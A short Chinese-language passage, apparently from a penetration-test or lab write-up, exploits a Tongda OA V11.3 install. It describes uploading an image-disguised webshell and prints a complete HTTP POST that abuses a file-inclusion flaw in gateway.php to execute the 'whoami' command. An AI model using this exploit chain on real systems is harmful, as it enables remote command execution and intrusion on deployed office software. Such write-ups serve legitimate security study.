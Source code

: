 ![img](assets/1700555908491-c752f47d-0ec9-494b-a1e0-75ea6f84ac9c.jpeg)

是个通达OA，经测试其版本为通达OA V11.3，该版本存在任意用户登录、文件包含和文件上传等多个漏洞。具体漏洞详情可参考：https://blog.csdn.net/szgyunyun/article/details/107104288

下面我们来利用这些漏洞执行命令。首先上传图片马：

![img](assets/1700555908654-1bff2e23-579a-4b12-b081-21e8c780567a.jpeg)

如上图上传成功，2102是文件夹名，1811843809|shell.jpg是文件名，要把 | 修改成点。然后利用文件包含漏洞，发送如下请求：

POST /ispirit/interface/gateway.php HTTP/1.1 Host: 192.168.52.30:8080 Connection: keep-alive Accept-Encoding: gzip, deflate Accept: */* User-Agent: python-requests/2.21.0 Content-Length: 69 Content-Type: application/x-www-form-urlencoded json={"url":"/general/../../attach/im/2102/1811843809.shell.jpg"}&cmd=whoami
